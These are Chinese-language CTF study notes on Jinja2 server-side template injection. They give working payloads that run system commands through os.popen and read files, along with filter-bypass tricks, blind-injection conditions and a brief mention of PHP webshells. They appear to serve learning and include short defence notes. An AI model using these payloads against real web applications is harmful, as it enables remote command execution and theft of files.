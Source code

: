 # SSTI and 杂项

python脚本练习：https://fdujwc.cn/befast/

一秒发送计算（秋名山车神）

```python
import requests
import re
url = 'https://fdujwc.cn/befast/'
s = requests.Session()
source = s.get(url)
expression = re.search(r'(\d+[+\-*])+(\d+)', source.text).group()
result = eval(expression)
post = {'value':result}
print(s.post(url,data=post).text)
```

### 一句话木马的基础补充：

https://blog.csdn.net/weixin_39190897/article/details/86772765

一句话木马（**简称Webshell**）

例题就是极客：


密码是attack

这句话什么意思呢？

（1）php的代码要写在<?php ?>里面，服务器才能认出来这是php代码，然后才去解析。
（2）@符号的意思是不报错，即使执行错误，也不报错。

### SSTI jinja2模板学习

flask自带

模板仅仅是文本文件。它可以生成任何基于文本的格式（HTML、XML、CSV、LaTex 等等）。 它并没有特定的扩展名， .html 或 .xml 都是可以的。

瞎写的python以用于学习：

```python
from flask import Flask, escape, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return 'index'

@app.route('/login')
@app.route('/login/<name>')
def login(name = None):
    return render_template('hi.html',name=name)

```

```html
#hi.html
<!doctype html>
<html>
<title>Hello from Flask</title>
{% if name %}
  <h1>Hello {{ name }}!</h1>
{% else %}
  <h1>Hello, World!</h1>
{% endif %}
</html>
```

### ssti 任意命令执行：

```python
{{"".__class__.__mro__.__getitem__(1).__subclasses__()[300].__init__.__globals__["os"]["popen"]("whoami").read()}}

{{"".__class__.__mro__[1].__subclasses__()[300].__init__.__globals__["os"]["popen"]("whoami").read()}}
```

```pyyhon
{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__.__builtins__['open']('d://flask/flag.txt').read()}}
#文件读取
__builtins__以调动函数
```

```
"".__class__
```

通过**bases**或者**mro**来获取到object基类

这里怎么在网页上找到相应的类？fuzz即可

```
"".__class__.__mro__[1]
```

```python
"".__class__.__mro__[1].__subclasses__()
#子类
for i in enumerate(''.__class__.__mro__[1].__subclasses__()): print (i)
#寻找子类


{{"".__class__.__mro__[1].__subclasses__()[118].__init__.__globals__}}
init 初始化 globals 全局

["os"]["popen"]("whoami").read()
```

os.popen("")调用系统命令，可以实现一个“管道”

read()从地址读取回显

### BYPASS技巧

引号：

用元组，列表等引出基类，开头去除""为[]or()

使用request.args导入字符（这种方法没法在我写的html复现， 因为没法传参）

小括号：

一旦被过滤，无法执行函数，但是可以玩玩{{config}}这样的小玩意儿

目前貌似没有不用小括号传参的方法

关键字：

1、同引号：request.args

```python
2、"__cl"+"ass __"
3、base64 or utf-8 decode 
#倒序[::1]
chr()
```

点号：

```
"".__class__等价于""["__class__"]
```

如果被阉割了模块，可以

```python
reload（__builtins__）
```

getitem取用元素，从而绕过[]

过滤{{}}：

### 盲注

```python
{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__.__builtins__['open']('d://flask/flag.txt').read()[0:1] == 'A'}} //true

{%if ().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__.__builtins__['open']('d://flask/flag.txt').read()[0:1] == 'a' %} konodioda
{% endif %}
```

利用curl将执行结果带出来

脚本还不会写，盲注的方法还不太懂。下一次研究再尝试写出脚本



**getattr()** 函数用于返回一个对象属性值。

```
getattr(getattr((),'__bases__'),"__class__")
```

配合base64， chr等食用效果更佳。字符串总是能玩出许多花样的



### 防御

禁用()

多赋值几次：

get传参给user user又套模板什么的